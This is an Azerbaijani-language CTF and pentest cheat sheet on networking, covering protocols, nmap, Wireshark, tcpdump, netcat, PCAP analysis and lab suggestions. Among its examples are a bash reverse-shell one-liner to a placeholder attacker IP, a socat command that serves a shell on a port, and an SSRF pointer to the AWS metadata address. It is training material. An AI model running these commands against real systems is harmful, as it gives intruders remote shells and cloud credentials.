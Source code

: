 
# 🌐 Networking (Şəbəkə Təhlükəsizliyi və Analizi) — Əhatəli Təlimat

---

## 🎯 Nədir və Niyə Vacibdir?

**Networking**, CTF və real hücum analizində sistemlərin bir-biri ilə necə əlaqə qurduğunu, paketlərin necə ötürüldüyünü və bu məlumat axınının necə sındırıla biləcəyini öyrənmək sahəsidir.

Real-case istifadə:
- 📦 PCAP faylından credential tapmaq
- 🚪 Açıq portlardan reverse shell almaq
- 🔎 DNS sorğularından informasiya toplamaq
- 🧠 Pentest zamanı firewall bypass etmək
- 🔐 VPN, NAT, Proxy arxasındakı sistemləri aşkar etmək

---

## 📚 Protokollar və OSI Modeli

```
OSI Model: (7 qatdan ibarət)  
1. Physical — kabel, WiFi, siqnallar  
2. Data Link — MAC ünvanı (Ethernet)  
3. Network — IP, ICMP  
4. Transport — TCP, UDP  
5. Session — bağlantının qurulması (RPC, SMB)  
6. Presentation — SSL, şifrələmə  
7. Application — HTTP, DNS, FTP, SSH
```

- **TCP (Transmission Control Protocol)** – Bağlantı əsaslı, 3-way handshake (SYN → SYN/ACK → ACK)
- **UDP (User Datagram Protocol)** – Bağlantısız, sürətli, amma zəif etibarlılıq
- **ICMP (ping, traceroute)** – Nəzarət və status mesajları üçün

---

## 🔧 Əsas Alətlər və İstifadəsi

### 1. **Nmap** – Şəbəkə skanı və port təhlili
```bash
nmap -sS -p- -T4 -A <target>      # SYN scan, bütün portlar, OS və versiya təhlili
nmap -sU -p 53 <target>           # UDP scan
nmap --script vuln <target>      # Zəiflik skanı
```

### 2. **Wireshark** – Paket analizator
- `.pcapng` fayllarını açmaq, HTTP/FTP/SSH protokollarını izləmək
- Filtrlər:
```
http.request
ftp.password
tcp.stream eq 3
ip.addr == 10.10.10.10
```

### 3. **tcpdump** – Terminalda trafik analiz
```bash
tcpdump -i eth0 -w capture.pcap
tcpdump -nn -X port 80
```

### 4. **netcat (nc)** – Port dinləmə, port test, shell qoşulma
```bash
nc -lvnp 4444                     # Dinləyici aç
nc <target> 80                    # Port test
```

### 5. **socat** – Advanced port forward, reverse shell tunelləri
```bash
socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash
```

### 6. **telnet / curl / wget** – HTTP, FTP, SMTP testləri
```bash
telnet <host> 25                 # SMTP test
curl http://target.com/page      # HTTP test
```

### 7. **whois / dig / host / nslookup** – DNS və domain analiz
```bash
whois target.com
dig A target.com
host -t mx target.com
```

---

## 🚀 Advanced Texnikalar

### 🔹 TCP üçtərəfli əl sıxma (3-way Handshake)
- SYN → SYN/ACK → ACK
- SYN Flood (DoS), RST cavabı bağlı port deməkdir

### 🔹 DNS Tunneling
- Malware gizli məlumatı DNS sorğularında ötürür
- Tools: `iodine`, `dnscat2`

### 🔹 Reverse Shell Tunnel
- Netcat, Socat, bash ilə:
```bash
bash -i >& /dev/tcp/attacker_ip/4444 0>&1
```

### 🔹 Proxy və VPN bypass
- HTTP tunneling, DNS rebinding, port knocking
- Misal: SSRF ilə `169.254.169.254`-ə daxil olmaq (AWS metadata)

### 🔹 ARP Spoofing və MITM
- Alətlər: `arpspoof`, `ettercap`, `mitmproxy`
- Lokal şəbəkədə trafik manipulyasiyası

---

## 📌 Real CTF/TryHackMe Tapşırıqları

### 🧪 Labs
- TryHackMe:
  - “Wireshark”, “Packet Analysis”, “Intro to Networking”
  - “Network Services”, “Burp Suite Basics”
- HackTheBox: "Archetype", "Spectra", "Remote"
- PCAP challs: “capturedData.pcapng”, “ping.zip” (ICO2025)

### 📂 Ən çox görülən pcap içi flag yolları:
- HTTP auth header (`Authorization: Basic`)
- FTP login → USER / PASS
- DNS sorğular içində flag
- ICMP içində ASCII kodlu mesaj
- Telnet yazışmaları

---

## 🔁 Addım-addım Workflow: PCAP Analizi

1. `tcpdump` və ya `wireshark` ilə paketləri aç
2. Protokol üzrə filterlər: `http`, `ftp`, `icmp`, `dns`
3. TCP stream-ləri izləyin → `Follow TCP Stream`
4. Fayl yükləmələri varsa: `Export Objects → HTTP`
5. Şifrələmə varsa: base64, hex, xor yoxla (CyberChef)
6. Hər URL-ə bax: `GET /flag.txt`, `POST login`
7. Hash varsa → hashcat / crackstation ilə test

---

## 🛡️ Defense və Detection

- **Firewall (iptables, ufw)** ilə port qapatmaq
- **Snort / Suricata** – intrusion detection
- **tcpdump + cron** – trafik loglaması
- **Wireshark display filters** → analiz üçün şərtlər yaz

---

## 📚 Resurslar və Lab Mühitləri

- [Wireshark Documentation](https://www.wireshark.org/docs/)
- [HackTricks: Networking Cheatsheet](https://book.hacktricks.xyz/)
- [TryHackMe Networking Rooms](https://tryhackme.com/)
- [PacketTotal.com](https://packettotal.com/) – Online pcap analiz
- GitHub:
  - `PacketWhisper`, `DNSExfiltrator`, `wireshark-ctf-dumps`

---

## 🔗 Mövzulararası Əlaqə

| Sahə             | Əlaqə                                         |
|------------------|-----------------------------------------------|
| Web Exploitation | SSRF → şəbəkə daxilindəki xidmətlərə çıxış   |
| OSINT            | IP, subdomain tap → nmap ilə test et         |
| PrivEsc          | local port → reverse shell → tcp listener     |
| Steganography    | pcap içində gizli data exfiltration           |

---

## 🧠 Professional Tövsiyələr

- `tcpdump` ilə real vaxt trafik logla (`-w`, `-C`, `-G`)
- Portların default xidmətlərini əzbərlə: `21-FTP`, `22-SSH`, `80-HTTP`, `443-HTTPS`, `3306-MySQL`
- `iptables` / `ufw` ilə traffic limitləmə
- `tmux` və `script` ilə şəbəkə hücum loglarını qoruyun
- Reverse shell alanda dərhal `whoami`, `ifconfig`, `ip a`, `netstat -tulnp`
